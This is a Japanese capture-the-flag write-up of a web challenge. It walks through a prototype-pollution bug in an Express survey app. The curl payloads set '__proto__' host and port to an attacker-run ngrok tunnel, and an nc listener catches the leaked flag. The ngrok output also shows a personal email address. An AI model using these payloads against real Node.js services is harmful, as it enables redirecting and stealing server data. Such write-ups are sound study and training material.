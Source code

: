 # Mini Survey:web:480pts
Please answer this survey for the better of all  
\- Minnesota Dept of Roads & Railways  
[http://mini-survey.web.nitectf.live/](http://mini-survey.web.nitectf.live/)  

[miniSurvery_updated_2.zip](miniSurvery_updated_2.zip)  

# Solution
URLとソースが与えられる。  
URLにアクセスすると、道路状況のアンケートを送信できる。  
![site1.png](site/site1.png)  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
ソースを見るとindex.jsの主要部分は以下のようであった。  
```js
const express = require("express");
const updateDBs = require("./serverComs");
~~~
app.set("view engine", "ejs");
app.use(express.urlencoded({ extended: true }));

//add initial data as headers to convert to csv
let surveyOneInitialData = { Name: { City: "Rating" } };
let surveyTwoInitialData = { Name: { City: { Rating: "Reasons" } } };

~~~

app.post("/roadqualsurvey", (req, res) => {
    console.log(23);
    const fieldInput1 = req.body.name;
    const fieldInput2 = req.body.city;
    const fieldInput3 = req.body.roadRate;
    const fieldInput4 = req.body.reasons;

    let reasons = fieldInput4.split(",");

    surveyTwoInitialData[fieldInput1] = {
        [fieldInput2]: { [fieldInput3]: reasons },
    };

    console.log(surveyTwoInitialData);

    test = Object.create(surveyTwoInitialData);
    console.log(test.url);

    surveyTwoInitialData = updateDBs(surveyTwoInitialData, {
        Name: { City: { Rating: "Reasons" } },
    });

    res.redirect("/thankyou");
});

app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };

    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
~~~
```
serverComs.jsは以下のようであった。  
```js
const net = require("net");

backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}

function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FAKE_FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}

module.exports = updateDBs;
```
`updateDBs`に渡ったデータに`host`、`port`が存在すれば、そこにフラグを送っている。  
しなければ`localhost`の`8888`になるようだ。  
フロントからそれらを設定するものはないように見える。  
ここで`surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };`の怪しさに気づく。  
`__proto__`経由で、任意の項目を汚染できる。  
`host`と`port`を自身の受信サーバに差し替えればよい(`options.host.endsWith(".ngrok.io")`に注意)。  
受信サーバ側を以下のように準備する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
```
```bash
$ ngrok tcp 8888
~~~
Session Status                online
Account                       t.satoki111@gmail.com (Plan: Free)
Update                        update available (version 3.5.0, Ctrl-U to update)
Version                       3.3.5
Region                        United States (California) (us-cal-1)
Latency                       -
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://6.tcp.us-cal-1.ngrok.io:12576 -> localhost:8888
~~~
```
リクエストを以下のように送る。  
```bash
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=host&pollutionRate=6.tcp.us-cal-1.ngrok.io"
Found. Redirecting to /thankyou
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=port&pollutionRate=12576"
Found. Redirecting to /thankyou
```
先ほどの受信サーバ側に以下のようなリクエストが到達する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 127.0.0.1 43088
{"flag":"nite{pr0t0_p0llut3d_116a4601b79d6b8f}","log":"new entry added"}
```
flagが得られた。  

## nite{pr0t0_p0llut3d_116a4601b79d6b8f}